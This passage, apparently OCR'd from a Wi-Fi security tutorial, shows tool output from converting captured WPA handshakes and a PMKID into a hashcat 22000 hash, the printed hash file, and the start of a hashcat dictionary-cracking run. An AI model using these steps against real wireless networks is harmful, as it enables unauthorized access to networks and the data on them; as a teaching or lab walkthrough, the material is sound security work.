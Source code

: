 ```shell
EAPOL M3 messages (total)................: 1
EAPOL M4 messages (total)................: 1
EAPOL pairs (total)......................: 2
EAPOL pairs (best).......................: 1
EAPOL pairs written to combi hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1
PMKID (total)............................: 1
PMKID (best).............................: 1
PMKID written to combi hash file.........: 1

Warning: missing frames!
This dump file does not contain undirected proberequest frames.
An undirected proberequest may contain information about the PSK.
It always happens if the capture file was cleaned or
it could happen if filter options are used during capturing.
That makes it hard to recover the PSK.

Warning: missing frames!
This dump file does not contain enough EAPOL M1 frames.
It always happens if the capture file was cleaned or
it could happen if filter options are used during capturing.
That makes it impossible to calculate nonce-error-correction values.

session summary
---------------
processed pcapng files................: 1

```

We can inspect the hash to verify that it's the format we expect.

```shell
cat hash

WPA*01*cf7b81c9764f573c0fe30d21b40540d1*d8a63deb29d5*a234e93dcc12*485442***
WPA*02*8d2a1324dffc596883d96a1296fcb0d1*d8d33deb29d5*a234e93dcc12*485442*c1ba769069dbf4e21b72b20e706840d39e66905f8678d1736c6039381f048ff2*0103007502010a00000000000000000001c69f4dbef776505c95506cc6367c312647490089daeb4106b213dc02ae29441c000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac028000*02

```

To crack the hash, we use the `-m 22000` option in Hashcat, followed by the hash file and the wordlist we want to use for the brute-force attack.

## Cracking the Hash

```shell
hashcat -m 22000 --force hash /opt/wordlist.txt

hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD EPYC 7302P 16-Core Processor, 1433/2930 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

```